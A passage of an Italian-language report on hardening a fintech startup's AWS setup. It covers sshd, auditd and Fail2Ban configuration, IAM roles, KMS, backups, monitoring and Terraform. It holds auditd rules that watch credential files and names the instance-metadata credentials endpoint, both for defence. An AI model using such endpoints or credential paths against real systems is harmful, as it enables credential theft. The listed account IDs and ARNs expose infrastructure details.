echo "INFO: Rafforzamento configurazione SSHD (/etc/ssh/sshd_config)..."
SSHD_CONFIG_FILE="/etc/ssh/sshd_config"
if [ -f "$SSHD_CONFIG_FILE" ]; then
    sed -i 's/^#*PermitRootLogin .*/PermitRootLogin no/' "$SSHD_CONFIG_FILE"
    sed -i 's/^#*PasswordAuthentication .*/PasswordAuthentication no/' "$SSHD_CONFIG_FILE" # Richiede key-based auth
    sed -i 's/^#*X11Forwarding .*/X11Forwarding no/' "$SSHD_CONFIG_FILE"
    sed -i 's/^#*ClientAliveInterval .*/ClientAliveInterval 300/' "$SSHD_CONFIG_FILE"
    sed -i 's/^#*ClientAliveCountMax .*/ClientAliveCountMax 0/' "$SSHD_CONFIG_FILE"
    grep -qxF 'Protocol 2' "$SSHD_CONFIG_FILE" || echo 'Protocol 2' >> "$SSHD_CONFIG_FILE"
    # Valutare aggiunta di: AllowUsers, AllowGroups, DenyUsers, DenyGroups
    # Valutare cambio porta SSH di default (con attenzione ai Security Groups)
    systemctl restart sshd || systemctl restart ssh # Riavvia sshd per applicare le modifiche
    echo "INFO: Configurazione SSHD rafforzata."
else
    echo "WARN: File $SSHD_CONFIG_FILE non trovato. Impossibile rafforzare SSHD."
fi

# --- Configurazione Auditd (Regole base CIS Benchmark) ---
echo "INFO: Configurazione regole auditd di base..."
AUDIT_RULES_FILE="/etc/audit/rules.d/99-finanz-hardening.rules"
cat <<EOF > "$AUDIT_RULES_FILE"
# Monitoraggio modifiche a file di identita\`
-w /etc/passwd -p war -k identity_passwd
-w /etc/shadow -p war -k identity_shadow
-w /etc/group -p war -k identity_group
-w /etc/gshadow -p war -k identity_gshadow

# Monitoraggio modifiche a configurazioni di sistema critiche
-w /etc/sudoers -p war -k sudoers_change
-w /etc/sudoers.d/ -p war -k sudoers_d_change
-w /etc/ssh/sshd_config -p war -k sshd_config_change

# Monitoraggio uso di comandi privilegiati (esempi)
-a always,exit -F arch=b64 -S execve -F euid=0 -k privileged_exec_b64
-a always,exit -F arch=b32 -S execve -F euid=0 -k privileged_exec_b32

# Monitoraggio tentativi di modifica delle regole di audit
-w /etc/audit/auditd.conf -p war -k audit_conf_change
-w /etc/audit/rules.d/ -p war -k audit_rules_change
EOF
augenrules --load # Carica le nuove regole
# systemctl restart auditd # Potrebbe essere necessario su alcuni sistemi
echo "INFO: Regole auditd di base configurate in $AUDIT_RULES_FILE."

# --- Configurazione Fail2Ban (Esempio base per SSH) ---
# Fail2Ban dovrebbe essere gia\` installato. Creiamo un jail locale per SSH.
JAIL_LOCAL_FILE="/etc/fail2ban/jail.local"
if [ -f /etc/fail2ban/jail.conf ] && [ ! -f "$JAIL_LOCAL_FILE" ]; then
    echo "INFO: Creazione configurazione locale per Fail2Ban ($JAIL_LOCAL_FILE)..."
    cat <<EOF > "$JAIL_LOCAL_FILE"
[DEFAULT]
# Escludi IP locali o fidati
ignoreip = 127.0.0.1/8 ::1

# Tempo di ban (in secondi)
bantime  = 1h

# Numero di tentativi prima del ban
maxretry = 5

# Finestra temporale per il conteggio dei tentativi
findtime = 10m

[sshd]
enabled = true
# Si possono specificare porte non standard se necessario: port = ssh,tuaporta
# logpath = %(sshd_log)s # Default solitamente corretto
# backend = %(sshd_backend)s # Default solitamente corretto
EOF
    systemctl enable fail2ban
    systemctl restart fail2ban
    echo "INFO: Configurazione locale di Fail2Ban per SSH creata e servizio riavviato."
elif [ -f "$JAIL_LOCAL_FILE" ]; then
    echo "INFO: File $JAIL_LOCAL_FILE gia\` esistente. Skippata creazione jail.local per Fail2Ban."
else
    echo "WARN: Fail2Ban non sembra installato correttamente. Impossibile configurare jail.local."
fi

# --- Pulizia finale (pacchetti non necessari, cache) ---
echo "INFO: Pulizia pacchetti non necessari e cache..."
if [[ "$OS_ID" == "ubuntu" ]]; then
    apt-get autoremove -y
    apt-get clean -y
elif [[ "$OS_ID" == "amzn" ]]; then
    yum autoremove -y # Su Amazon Linux 2, yum e\` un link a dnf o yum stesso
    yum clean all
fi

echo "INFO: Script di hardening per Finanz completato con successo - $(date)"
exit 0
    \end{lstlisting}

\subsection{Utilizzo Fondamentale di IAM Roles per le Istanze EC2}
\label{subsec:iam-roles-ec2_cap2}
Questa è una delle pratiche di sicurezza più importanti, che ho verificato essere implementata correttamente nell'ambiente di Finanz. \textbf{Non bisogna mai salvare credenziali AWS statiche (Access Key ID e Secret Access Key) direttamente su un'istanza EC2}. Invece, si associa un \textbf{IAM Role} all'istanza al momento del lancio. L'applicazione in esecuzione sull'istanza può quindi ottenere credenziali temporanee tramite il servizio metadati dell'istanza (IMDS), assumendo i permessi definiti nel ruolo associato. Questo elimina il rischio di esposizione di credenziali a lungo termine.
Ho osservato che tutte le istanze EC2 di Finanz utilizzano il ruolo IAM \texttt{FinanzEC2AppRole} (ARN: \texttt{arn:aws:iam::538927841179:role/FinanzEC2AppRole}). Questo ruolo, in linea con il principio del minimo privilegio, concede permessi specifici, tra cui:
\begin{itemize}
    \item Lettura di oggetti dal bucket S3 \texttt{finanz-static-assets} (necessario per servire alcuni asset o configurazioni).
    \item Scrittura di log nel gruppo CloudWatch Logs \texttt{/aws/ec2/finanz-app} (o nomi simili per i diversi ambienti Elastic Beanstalk).
    \item Accesso a parametri specifici in AWS Systems Manager Parameter Store, utilizzando un prefisso dedicato come \texttt{/finanz/app/}, per recuperare configurazioni sensibili (es. stringhe di connessione al database, chiavi API di terze parti).
\end{itemize}
L'applicazione ottiene le credenziali temporanee interrogando l'endpoint IMDS locale (\texttt{http://169.254.169.254/latest/meta-data/iam/security-credentials/FinanzEC2AppRole}). Queste credenziali vengono ruotate automaticamente da AWS, tipicamente ogni 1-6 ore, senza intervento manuale. È importante anche configurare IMDSv2 (Instance Metadata Service Version 2), che offre maggiore protezione contro attacchi SSRF (Server-Side Request Forgery), richiedendo una session token per accedere ai metadati.

\subsection{Scalabilità e Disponibilità con Auto Scaling Groups}
\label{subsec:auto-scaling_cap2}
Per garantire la disponibilità dell'applicazione e gestire in modo efficiente i picchi di carico, Finanz utilizza \textbf{Auto Scaling Groups (ASG)}, gestiti prevalentemente tramite le configurazioni di Elastic Beanstalk. Ho identificato gli ASG \texttt{finanz-prod-asg} (nome logico derivato da Elastic Beanstalk) e \texttt{finanz-dev-asg}.
L'ASG di produzione (\texttt{awseb-e-*-AWSEBAutoScalingGroup-*} nome effettivo) è configurato per mantenere normalmente 3 istanze attive (desired capacity), con un minimo di 2 (min size) e un massimo di 8 (max size). Durante le ore di maggiore traffico (tipicamente osservate tra le 9:00 e le 18:00 dei giorni feriali), l'ASG scala frequentemente fino a 5-6 istanze. Le policy di scaling sono basate su metriche CloudWatch, tra cui:
\begin{itemize}
    \item Utilizzo medio della CPU del gruppo > 70\% per almeno 2 minuti consecutivi $\rightarrow$ Azione di Scale Out (aggiunta di istanze).
    \item Utilizzo medio della CPU del gruppo < 30\% per almeno 10 minuti consecutivi $\rightarrow$ Azione di Scale In (rimozione di istanze).
    \item Talvolta vengono usate anche metriche di rete, come Network In > 50 MB/min per istanza, come trigger aggiuntivo per lo Scale Out.
\end{itemize}
Il tempo medio che ho osservato per il provisioning e la messa in servizio di una nuova istanza EC2 da parte dell'ASG (incluso il boot, l'esecuzione di script di user-data e la registrazione al load balancer) è di circa 4 minuti e 30 secondi. Questo garantisce una buona reattività ai cambiamenti di carico.

\section{Protezione dei Dati Sensibili: Un Imperativo per le fintech}
\label{sec:data-protection_cap2}
In una startup fintech come Finanz, la protezione dei dati dei clienti, delle transazioni finanziarie e di altre informazioni confidenziali è di massima priorità. AWS offre una suite completa di strumenti e servizi per implementare una solida strategia di protezione dei dati.

\subsection{Crittografia dei Dati: a Riposo (At Rest) e in Transito (In Transit)}
\label{subsec:encryption_cap2}
La crittografia è un pilastro fondamentale della protezione dei dati. Ho verificato che Finanz adotta misure di crittografia sia per i dati a riposo che per quelli in transito.
\begin{itemize}
    \item \textbf{Crittografia a Riposo (At Rest)}: È essenziale crittografare i dati sensibili quando sono memorizzati su disco o in altri sistemi di storage. AWS facilita enormemente questa operazione:
        \begin{itemize}
            \item \textbf{Amazon S3}: Tutti i bucket S3 utilizzati da Finanz, inclusi \texttt{finanz-logs-538927841179}, \texttt{finanz-artifacts-eu-south-1}, e \texttt{finanz-static-assets}, sono configurati per utilizzare la crittografia lato server con chiavi gestite da AWS KMS (SSE-KMS). Viene utilizzata una Customer Managed Key (CMK) specifica per S3, ad esempio \texttt{arn:aws:kms:eu-south-1:538927841179:key/finanz-s3-encryption-key}. Il bucket dei log (\texttt{finanz-logs-538927841179}) ha anche S3 Object Lock abilitato in modalità Governance con un periodo di retention di 7 anni, per garantire l'immutabilità dei log a fini di compliance e audit.
            \item \textbf{Amazon EBS}: Tutti i volumi Elastic Block Store (EBS), sia quelli di root che quelli di dati associati alle istanze EC2, sono configurati per la crittografia di default a livello di account, utilizzando una chiave gestita da AWS per EBS (AWS-managed key) o, preferibilmente, una CMK dedicata (es. \texttt{arn:aws:kms:eu-south-1:538927841179:key/finanz-ebs-encryption-key}). Attualmente, Finanz gestisce circa 45 volumi EBS, per un totale di circa 2.3 TB di storage crittografato.
            \item \textbf{Amazon RDS}: Come già menzionato, entrambe le istanze PostgreSQL (sviluppo e produzione) utilizzano la crittografia at-rest integrata di RDS, anch'essa basata su AWS KMS con una CMK dedicata (es. \texttt{arn:aws:kms:eu-south-1:538927841179:key/finanz-rds-encryption-key}). Dai benchmark che ho potuto consultare o eseguire, l'impatto sulle performance di questa crittografia è minimo, solitamente inferiore al 2\%.
        \end{itemize}
    \item \textbf{Crittografia in Transito (In Transit)}: È altrettanto cruciale proteggere i dati mentre viaggiano sulla rete, sia esternamente (tra i client e AWS) sia internamente (tra i servizi AWS).
        \begin{itemize}
            \item \textbf{Comunicazioni Esterne}: L'Application Load Balancer (ALB) \texttt{finanz-prod-alb-1284567} termina le connessioni TLS/SSL utilizzando certificati digitali gestiti tramite AWS Certificate Manager (ACM). Il certificato in uso (es. ARN: \texttt{arn:aws:acm:eu-south-1:538927841179:certificate/12345678-1234-1234-1234-123456789012}) copre i domini dell'applicazione Finanz. Ho verificato che la policy di sicurezza TLS sull'ALB è configurata per accettare solo protocolli moderni e sicuri (es. TLS 1.2 o superiore), e circa il 99.7\% del traffico osservato utilizza queste versioni. Le connessioni HTTP sulla porta 80 vengono automaticamente reindirizzate a HTTPS sulla porta 443.
            \item \textbf{Comunicazioni Interne}: Per le comunicazioni tra i servizi all'interno del VPC (es. tra le istanze EC2 e le istanze RDS, o tra EC2 e S3 tramite VPC Endpoint), si fa affidamento sull'isolamento fornito dal VPC stesso. Tuttavia, per una maggiore sicurezza, si potrebbe valutare l'implementazione di TLS anche per queste comunicazioni interne, sebbene possa introdurre complessità nella gestione dei certificati.
        \end{itemize}
\end{itemize}

\subsection{Gestione Centralizzata delle Chiavi Crittografiche con AWS KMS}
\label{subsec:kms_cap2}
Come evidenziato, \textbf{AWS Key Management Service (KMS)} gioca un ruolo centrale nella strategia di crittografia di Finanz. Permette di creare e controllare le chiavi crittografiche (Customer Managed Keys - CMKs) utilizzate per crittografare i dati in vari servizi AWS. Nell'account di Finanz, ho identificato circa 8 CMK attive, tra cui:
\begin{itemize}
    \item \texttt{finanz-s3-encryption-key}: Utilizzata per la crittografia SSE-KMS dei bucket S3. Registra un utilizzo di circa 1000 operazioni di crittografia/decrittografia al giorno.
    \item \texttt{finanz-rds-encryption-key}: Utilizzata per la crittografia at-rest delle istanze RDS PostgreSQL. Utilizzo meno frequente, circa 50 operazioni al giorno (principalmente durante backup e restore).
    \item \texttt{finanz-ebs-encryption-key}: Utilizzata per la crittografia dei volumi EBS aggiuntivi o per sovrascrivere la chiave di default. Circa 20 operazioni al giorno.
    \item \texttt{finanz-secrets-key}: Utilizzata da AWS Secrets Manager per crittografare i segreti memorizzati (es. password, chiavi API). Circa 200 operazioni al giorno, in base agli accessi ai segreti da parte delle applicazioni.
    \item Altre chiavi potrebbero essere usate per CloudTrail log encryption, CodePipeline artifacts, ecc.
\end{itemize}
L'uso di CMK offre un controllo granulare sui permessi di utilizzo delle chiavi (definiti tramite key policies e policy IAM, come discusso nel Capitolo \ref{ch:iam_security}), sulla rotazione automatica delle chiavi (gestita da AWS per le CMK), e sull'auditing del loro utilizzo tramite CloudTrail. I costi mensili per KMS si aggirano tipicamente sui 15-20 EUR, dovuti principalmente al costo di ogni CMK (circa 1 EUR/mese ciascuna) e al volume di operazioni API che richiedono l'uso della chiave.
Per requisiti di sicurezza ancora più elevati, che richiedano ad esempio la gestione diretta dell'hardware crittografico (HSM), si potrebbe considerare \textbf{AWS CloudHSM}, ma per la maggior parte delle startup, inclusa Finanz, AWS KMS offre un eccellente equilibrio tra sicurezza, gestibilità e costi.

\subsection{Strategie di Backup e Disaster Recovery (DR)}
\label{subsec:backup-dr_cap2}
Avere backup regolari, testati e sicuri è essenziale per garantire la business continuity e per potersi riprendere da errori umani, guasti hardware, corruzione dei dati o attacchi informatici (es. ransomware). Finanz ha implementato una strategia di backup utilizzando \textbf{AWS Backup}.
\begin{itemize}
    \item \textbf{Piano di Backup Centralizzato}: È stato configurato un piano di backup denominato \texttt{FinanzDailyBackupPlan} che orchestra i backup per diverse risorse:
        \begin{itemize}
            \item \textbf{Istanze RDS}: Backup giornalieri automatici delle istanze RDS (sia produzione che sviluppo) vengono eseguiti durante la finestra di manutenzione notturna (es. alle 02:00 UTC), con una retention dei backup di 30 giorni. Questi snapshot permettono il Point-In-Time Recovery (PITR) fino a 5 minuti prima dell'ultimo backup.
            \item \textbf{Volumi EBS}: Backup settimanali (snapshot) di tutti i volumi EBS critici (associati alle istanze di produzione) vengono eseguiti ogni domenica, con una retention di 12 settimane.
            \item \textbf{Bucket S3}: La versioning è abilitata su tutti i bucket critici, fornendo una forma di recupero da eliminazioni o sovrascritture accidentali. Per un DR più robusto, si sta valutando S3 Cross-Region Replication (CRR) per i bucket più importanti.
            \item \textbf{Cross-Region Backup}: Per scopi di Disaster Recovery, i backup più importanti (es. snapshot RDS di produzione e snapshot EBS settimanali) vengono copiati mensilmente in una regione AWS secondaria (es. \texttt{eu-central-1}, Francoforte).
        \end{itemize}
    \item \textbf{Vault di Backup Sicuro}: Tutti i backup gestiti da AWS Backup sono archiviati in un vault di backup dedicato (\texttt{finanz-backup-vault}). Questo vault è protetto da una policy di accesso restrittiva e utilizza la crittografia (con una chiave KMS dedicata al vault) per proteggere i backup a riposo. Attualmente, il vault contiene circa 847 recovery point, per un totale di circa 1.2 TB di dati di backup.
    \item \textbf{Obiettivi di Ripristino (RTO/RPO)}: Gli obiettivi di ripristino target per Finanz sono: un RTO (Recovery Time Objective) massimo di 4 ore per i servizi critici di produzione e un RPO (Recovery Point Objective) massimo di 24 ore (idealmente molto meno per i dati transazionali, grazie al PITR di RDS). È fondamentale testare periodicamente le procedure di ripristino (almeno una o due volte l'anno) per assicurarsi che questi obiettivi siano raggiungibili e che le procedure siano efficaci.
\end{itemize}

\subsection{Misure di Sicurezza Specifiche per i Bucket S3}
\label{subsec:s3-security_cap2}
Amazon S3 è un servizio estremamente versatile, ma una sua configurazione errata può portare a gravi data breach. Ho verificato che Finanz adotta diverse misure per proteggere i propri bucket S3:
\begin{itemize}
    \item \textbf{Block Public Access (BPA)}: La funzionalità S3 Block Public Access è abilitata a livello di account AWS e ulteriormente verificata a livello di singolo bucket per tutti i bucket che non devono essere pubblici. Questa impostazione previene la concessione accidentale di accesso pubblico ai dati. La sua corretta applicazione è monitorata trimestralmente tramite una regola AWS Config custom (\texttt{s3-bucket-public-access-prohibited-check}) che verifica che BPA sia attivo su tutti i bucket non esplicitamente approvati per l'accesso pubblico (come quello per gli asset statici serviti da CloudFront).
    \item \textbf{Bucket Policies Granulari}: Vengono utilizzate bucket policy per definire permessi di accesso specifici. Ad esempio, il bucket dei log di CloudTrail (\texttt{finanz-cloudtrail-logs-538927841179}, che è un bucket diverso da quello generico dei log applicativi) ha una policy che permette la scrittura solo al servizio CloudTrail e la lettura solo a un ruolo IAM dedicato alla sicurezza e all'audit (es. \texttt{SecurityAuditRole}). Per il bucket \texttt{finanz-static-assets}, la policy permette l'accesso in lettura solo all'Origin Access Identity (OAI) di CloudFront, garantendo che gli asset siano serviti solo tramite la CDN.
    \item \textbf{S3 Access Points}: Per semplificare la gestione degli accessi a dati condivisi su larga scala o per applicazioni specifiche, Finanz sta iniziando ad utilizzare gli S3 Access Points. Attualmente sono configurati 3 access point:
        \begin{itemize}
            \item \texttt{dev-team-access}: Fornisce accesso specifico ai bucket di sviluppo per il team di sviluppo (ARN es.: \texttt{arn:aws:s3:eu-south-1:538927841179:accesspoint/dev-team-access}).
            \item \texttt{prod-read-only-data}: Fornisce accesso in sola lettura a specifici prefissi all'interno dei bucket di produzione per applicazioni o utenti che necessitano solo di leggere dati.
            \item \texttt{backup-operator-access}: Utilizzato da ruoli IAM specifici per le operazioni di backup e restore, limitando l'accesso solo ai bucket e alle azioni necessarie.
        \end{itemize}
    \item \textbf{Amazon Macie per la Scoperta di Dati Sensibili}: Finanz ha configurato Amazon Macie per eseguire scansioni settimanali dei bucket S3 (specialmente quelli che potrebbero contenere dati dei clienti o PII). Negli ultimi tre mesi, Macie ha analizzato e classificato oltre 25.000 oggetti, identificando 12 istanze di dati che potenzialmente contenevano PII (es. numeri di telefono o indirizzi email in file di log non correttamente anonimizzati). Queste identificazioni sono state investigate e le problematiche risolte (es. migliorando i processi di logging o spostando i file in bucket con controlli più stringenti).
    \item \textbf{S3 Storage Lens}: Per una visibilità operativa sull'utilizzo dello storage, sulle tendenze di crescita e sulle metriche di sicurezza, Finanz utilizza S3 Storage Lens. Il dashboard di default fornisce già informazioni utili, e si sta valutando l'attivazione di metriche avanzate per analisi più approfondite.
\end{itemize}

\section{Monitoraggio Continuo, Logging e Alerting: Vedere per Proteggere}
\label{sec:monitoring-logging_cap2}
Come si suol dire, non si può proteggere ciò che non si vede. Un sistema robusto di monitoraggio, logging e alerting è essenziale per rilevare attività sospette, diagnosticare problemi, rispondere tempestivamente agli incidenti di sicurezza e mantenere la conformità.

\subsection{Abilitazione e Configurazione di AWS CloudTrail e Amazon CloudWatch}
\label{subsec:cloudtrail-cloudwatch-enable_cap2}
Questi due servizi sono i pilastri del monitoraggio in AWS.
\begin{itemize}
    \item \textbf{AWS CloudTrail}: Ho verificato che CloudTrail è abilitato in tutte le regioni AWS utilizzate da Finanz e anche a livello di Organization. Sono stati configurati due trail principali:
        \begin{itemize}
            \item \texttt{finanz-audit-trail} (ARN es.: \texttt{arn:aws:cloudtrail:eu-south-1:538927841179:trail/finanz-audit-trail}): Questo è il trail principale che cattura quasi tutte le chiamate API effettuate nell'account AWS, fornendo una traccia di audit fondamentale ("chi ha fatto cosa, quando, da dove e su quale risorsa"). Include eventi di gestione e, opzionalmente, eventi dati per S3 (per bucket specifici) e Lambda.
            \item \texttt{finanz-security-trail}: Un secondo trail, più specifico, potrebbe essere configurato per catturare solo eventi di sicurezza critici, magari con filtri su azioni IAM, modifiche a Security Group, terminazione di istanze RDS, ecc., per facilitare analisi mirate. (Nota: se non esiste, suggerisco di crearlo).
        \end{itemize}
        I log di CloudTrail vengono inviati a un bucket S3 dedicato e protetto (\texttt{finanz-cloudtrail-logs-538927841179}), con la crittografia lato server (SSE-S3 o SSE-KMS) e la convalida dell'integrità dei file di log abilitate. Questi log vengono anche inviati a CloudWatch Logs per facilitare query e allarmi in tempo reale. Finanz analizza, in media, circa 15.000-20.000 eventi CloudTrail al giorno solo nell'ambiente di produzione.
    \item \textbf{Amazon CloudWatch}: CloudWatch è utilizzato estensivamente per raccogliere:
        \begin{itemize}
            \item \textbf{Metriche}: metriche di performance e utilizzo da oltre 45 risorse AWS (EC2, RDS, ALB, S3, Lambda, ecc.).
            \item \textbf{Log Applicativi e di Sistema}: L'agente CloudWatch unificato è installato su tutte le istanze EC2 (sia quelle gestite da Elastic Beanstalk che eventuali altre) per inviare i log delle applicazioni, i log di sistema (es. `/var/log/messages`, `/var/log/secure`) e metriche personalizzate a CloudWatch Logs. Attualmente, sono gestiti circa 23 gruppi di log principali. L'agente invia le metriche con una granularità di 60 secondi.
            \item \textbf{Eventi}: CloudWatch Events (ora parte di Amazon EventBridge) viene utilizzato per reagire a cambiamenti di stato nelle risorse AWS o per schedulare azioni.
        \end{itemize}
        Il costo mensile per CloudWatch si aggira sugli 85-95 EUR, principalmente per l'ingestion e l'archiviazione dei log e per le metriche personalizzate o quelle a risoluzione dettagliata.
\end{itemize}

\subsection{Configurazione di Allarmi CloudWatch Proattivi}
\label{subsec:cloudwatch-alarms_cap2}
Raccogliere log e metriche è solo il primo passo; è cruciale agire su di essi. Finanz ha configurato 28 allarmi CloudWatch principali per ricevere notifiche proattive su condizioni anomale o eventi critici. Questi allarmi sono fondamentali per una risposta rapida. Alcuni esempi significativi includono:
\begin{itemize}
    \item \texttt{HighCPUUtilization-Prod-EC2}: Triggera se l'utilizzo medio della CPU su una qualsiasi istanza EC2 di produzione supera l'80\% per più di 5 minuti consecutivi.
    \item \texttt{DatabaseConnections-Prod-RDS-Critical}: Si attiva se il numero di connessioni al database RDS di produzione supera 400 (circa l'80\% del limite massimo configurato per l'istanza \texttt{db.t4g.small}).
    \item \texttt{HTTP5xxErrors-Prod-ALB}: Notifica se il numero di errori HTTP 5xx (errori lato server) sull'Application Load Balancer di produzione supera 10 in un intervallo di 5 minuti.
    \item \texttt{UnauthorizedAPICalls-CloudTrail}: Utilizza un filtro metrico sui log di CloudTrail per rilevare e allertare su un numero anomalo di chiamate API che risultano in \texttt{AccessDenied} o \texttt{UnauthorizedOperation}.
    \item \texttt{RootAccountUsage-Alert}: Un allarme ad altissima priorità che triggera immediatamente per qualsiasi utilizzo (login o chiamata API) dell'account root AWS.
    \item \texttt{SecurityGroupChanges-Alert}: Notifica qualsiasi modifica (creazione, eliminazione, modifica di regole) ai Security Group critici.
    \item \texttt{NATGatewayErrorPortAllocation-Alert}: Monitora la metrica \texttt{ErrorPortAllocation} del NAT Gateway per prevenire l'esaurimento delle porte.
\end{itemize}
Questi allarmi sono configurati per inviare notifiche a un topic SNS (Simple Notification Service) dedicato alla sicurezza. Da questo topic, le notifiche vengono poi inoltrate via email a un gruppo di distribuzione del team tecnico/DevOps e, per gli allarmi più critici, anche via SMS o tramite integrazione con sistemi di PagerDuty/Opsgenie (attualmente in valutazione).
Negli ultimi 30 giorni, ho osservato che sono state ricevute 47 notifiche dagli allarmi; di queste, 3 sono state classificate come critiche (es. un picco imprevisto di errori 5xx sull'ALB) e sono state investigate e risolte entro un tempo medio di 2 ore.

\subsection{Utilizzo di Servizi di Sicurezza Gestiti: AWS Security Hub e Amazon GuardDuty}
\label{subsec:security-hub-guardduty_cap2}
Per un rilevamento delle minacce più avanzato e una gestione centralizzata dei risultati di sicurezza, Finanz si avvale di:
\begin{itemize}
    \item \textbf{Amazon GuardDuty}: Questo servizio di rilevamento delle minacce gestito è abilitato in tutte le regioni AWS pertinenti (attualmente \texttt{eu-south-1}, \texttt{eu-central-1}, e \texttt{eu-west-1} per una copertura più ampia in caso di attività anomale che attraversano le regioni). GuardDuty analizza continuamente diverse fonti di dati, tra cui i log di VPC Flow, i log di CloudTrail e i log DNS, per identificare attività malevole o non autorizzate. Negli ultimi 90 giorni, GuardDuty ha generato 23 "finding" (risultati). La maggior parte di questi (18) erano di severità BASSA (LOW), mentre 5 erano di severità MEDIA (MEDIUM). I finding più comuni includevano:
        \begin{itemize}
            \item \texttt{Recon:EC2/PortProbeUnprotectedPort}: 8 occorrenze, indicanti tentativi di scansione di porte su istanze EC2 da indirizzi IP esterni. Queste sono state verificate e i Security Group sono stati confermati essere restrittivi.
            \item \texttt{UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration}: 2 tentativi sospetti rilevati, che sono stati investigati approfonditamente. In questi casi specifici, si è trattato di falsi positivi dovuti a test interni, ma l'allerta è stata comunque preziosa.
            \item Altri finding di tipo \texttt{Trojan:EC2/DGADomainCall} o \texttt{Stealth:IAMUser/LoggingConfigurationModified} (questi ultimi molto rari e da investigare con massima priorità).
        \end{itemize}
        Il costo mensile per GuardDuty è relativamente contenuto, circa 12-15 EUR, e varia in base al volume di log analizzati. Ritengo che il valore fornito da GuardDuty superi ampiamente il suo costo.
    
    \item \textbf{AWS Security Hub}: Security Hub fornisce una vista aggregata e centralizzata degli avvisi di sicurezza (findings) provenienti da vari servizi AWS (come GuardDuty, Amazon Inspector per la scansione delle vulnerabilità delle EC2, Amazon Macie per la scoperta di dati sensibili, IAM Access Analyzer, AWS Firewall Manager) e, potenzialmente, da prodotti di sicurezza di terze parti integrati. Aiuta a prioritizzare i risultati, a gestire la postura di sicurezza e a verificare la conformità rispetto a standard di sicurezza.
        Attualmente, Security Hub in Finanz mostra:
        \begin{itemize}
            \item 127 finding totali attivi negli ultimi 30 giorni (aggregati da tutte le fonti).
            \item L'89\% di questi sono classificati come di severità BASSA.
            \item L'8\% sono di severità MEDIA.
            \item Il 3\% sono di severità ALTA (tutti quelli storici di alta severità sono stati risolti entro 24 ore dalla loro identificazione).
        \end{itemize}
        Finanz utilizza Security Hub per monitorare la conformità rispetto allo standard \textbf{CIS AWS Foundations Benchmark v1.2.0} (o versioni più recenti). Il punteggio di conformità attuale si attesta intorno all'87\%. Security Hub evidenzia i controlli non conformi, permettendo al team di pianificare le opportune azioni correttive. Ad esempio, un controllo CIS comune che richiede attenzione è la rotazione periodica delle access key IAM (sebbene l'obiettivo sia minimizzarne l'uso in favore dei ruoli).
\end{itemize}

\section{Automazione e Coerenza con Infrastructure as Code (IaC)}
\label{sec:iac_cap2}
Per garantire la coerenza nella configurazione dell'infrastruttura, ridurre il rischio di errori manuali, facilitare le revisioni di sicurezza e abilitare una rapida ripristinabilità, è fortemente raccomandato gestire l'infrastruttura AWS tramite un approccio di \textbf{Infrastructure as Code (IaC)}. Ho verificato che Finanz ha adottato questa pratica in modo estensivo.
\begin{itemize}
    \item \textbf{Strumento Utilizzato: Terraform}: Finanz utilizza \textbf{Terraform} (uno strumento open-source agnostico rispetto al cloud provider) per definire e provisionare la quasi totalità della sua infrastruttura AWS. I file di configurazione Terraform (scritti in HCL - HashiCorp Configuration Language) descrivono le risorse desiderate (VPC, subnet, route table, security group, istanze EC2, configurazioni Elastic Beanstalk, database RDS, bucket S3, policy IAM, allarmi CloudWatch, ecc.).
    \item \textbf{Gestione del Codice e dello Stato}:
        \begin{itemize}
            \item \textbf{Repository Git}: Tutti i file di codice Terraform sono conservati in un repository Git privato su GitHub (es. \texttt{finanz-infrastructure}). Questo permette il versionamento delle modifiche all'infrastruttura, la collaborazione tra i membri del team e la possibilità di effettuare rollback a versioni precedenti in caso di problemi. Ho notato circa 147 commit in questo repository negli ultimi 6 mesi, indicando un'attività di gestione continua.
            \item \textbf{Moduli Terraform Riutilizzabili}: Il codice Terraform è organizzato in circa 8 moduli principali riutilizzabili (es. `vpc`, `security-groups`, `ec2-instance`, `rds-cluster`, `s3-bucket`, `iam-role`, `cloudwatch-monitoring`, `backup-plan`). Questo promuove la standardizzazione e riduce la duplicazione del codice.
            \item \textbf{State Management Remoto e Sicuro}: Lo stato di Terraform (che tiene traccia delle risorse gestite) è conservato in modo sicuro in un bucket S3 dedicato (\texttt{finanz-terraform-state-538927841179}), con la versioning abilitata sul bucket e la crittografia lato server. Per prevenire conflitti durante esecuzioni contemporanee, viene utilizzata una tabella DynamoDB (\texttt{terraform-locks}) per la gestione dei lock dello stato.
        \end{itemize}
    \item \textbf{Integrazione con Pipeline CI/CD}: Le modifiche all'infrastruttura seguono un processo di Continuous Integration/Continuous Deployment (CI/CD) gestito tramite GitHub Actions:
        \begin{itemize}
            \item Su ogni Pull Request (PR) che modifica il codice Terraform, la pipeline esegue automaticamente comandi come \texttt{terraform fmt} (per la formattazione), \texttt{terraform validate} (per la sintassi) e, crucialmente, \texttt{terraform plan} (per mostrare quali modifiche verrebbero apportate all'infrastruttura).
            \item L'applicazione delle modifiche (\texttt{terraform apply}) avviene solo dopo una revisione manuale della PR e del piano di Terraform da parte di un membro qualificato del team (es. il CTO o un senior cloud engineer) e dopo il merge della PR nel branch principale.
            \item Negli ultimi 3 mesi, sono stati eseguiti 34 deployment di modifiche infrastrutturali tramite questa pipeline, con un tasso di successo del 100% (cioè, senza fallimenti che abbiano richiesto un rollback manuale immediato).
        \end{itemize}
    \item \textbf{Benefici Misurabili e Osservati}: L'adozione di IaC ha portato a benefici tangibili per Finanz:
        \begin{itemize}
            \item \textbf{Riduzione degli Errori di Configurazione}: Una stima interna indica una riduzione di circa il 90\% degli errori di configurazione manuale rispetto a quando le risorse venivano create prevalentemente tramite la console AWS.
            \item \textbf{Velocità di Provisioning}: Il tempo necessario per provisionare un nuovo ambiente completo (es. uno staging environment identico alla produzione) è stato ridotto da diversi giorni (se fatto manualmente) a circa 45-60 minuti (tramite l'esecuzione di Terraform).
            \item \textbf{Auditabilità e Compliance}: Avere l'infrastruttura definita come codice semplifica enormemente gli audit di sicurezza e la verifica della conformità. Si possono utilizzare strumenti di analisi statica del codice IaC (es. `tfsec`, `checkov`) per identificare potenziali problemi di sicurezza prima ancora del deployment. Finanz sta iniziando a integrare policy basate su Open Policy Agent (OPA) per validare le configurazioni Terraform rispetto a standard di sicurezza interni.
            \item \textbf{Ripetibilità e Coerenza}: L'infrastruttura può essere deployata in modo identico e ripetibile, garantendo la coerenza tra gli ambienti (dev, staging, prod) e facilitando il disaster recovery (ricreando l'infrastruttura in un'altra regione da codice).
        \end{itemize}
\end{itemize}
L'adozione di IaC sin dalle prime fasi di vita della startup si è rivelata una scelta strategica vincente, contribuendo a costruire un'infrastruttura robusta, sicura e gestibile nel tempo.

